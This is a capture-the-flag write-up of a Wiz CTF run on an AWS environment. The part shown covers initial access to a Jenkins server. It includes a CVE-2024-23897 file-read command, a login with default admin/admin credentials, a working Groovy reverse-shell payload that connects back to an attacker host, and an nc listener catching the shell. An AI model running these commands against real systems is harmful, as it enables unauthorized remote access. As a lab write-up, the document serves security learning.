 # Wiz Capture the Flag November 2024

I had the chance to participate to [Wiz CTF](https://www.wiz.io/events/capture-the-flag-singapore-2410) in November 2024, hosted in AWS Office.

Registering to the event triggers an email giving access to a Wiz tenant and allowing to explore an AWS account from Wiz perspective. The Capture The Flag event consists in a series of multiple choice questions about the environment, its configurations and weaknesses. It is solvable using solely Wiz to get all the information about the AWS environment.

This article takes a different approach: getting the necessary information from inside the environment by exploiting its weaknesses, getting `root` access on the different machines available, and elevating AWS access.

# Initial access

## First way in

The first way in is given by Wiz, from the Critical findings. There's a Jenkins machine with default credentials exposed to the internet. It is also vulnerable to the infamous [CVE-2024-23897](https://www.jenkins.io/security/advisory/2024-01-24/).

We can exploit `CVE-2024-23897`, but there's an easier way in.

```bash
$ java -jar jenkins-cli.jar -s http://203.0.113.1:8080/ -webSocket -auth admin:admin who-am-i @/etc/hosts
ERROR: No argument is allowed: 127.0.0.1 localhost
java -jar jenkins-cli.jar who-am-i
Reports your credential and permissions.
```

Browsing `http://203.0.113.1:8080/` and using `admin/admin` as credentials, we can access the Jenkins webui. From there, we can execute Groovy scripts from `http://203.0.113.1:8080/script`. For instance using the following

```groovy
String host="203.0.113.255";
int port=4444;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Which gives a reverse shell

```bash
$ nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 203.0.113.1 58996
id
uid=111(jenkins) gid=115(jenkins) groups=115(jenkins)
```
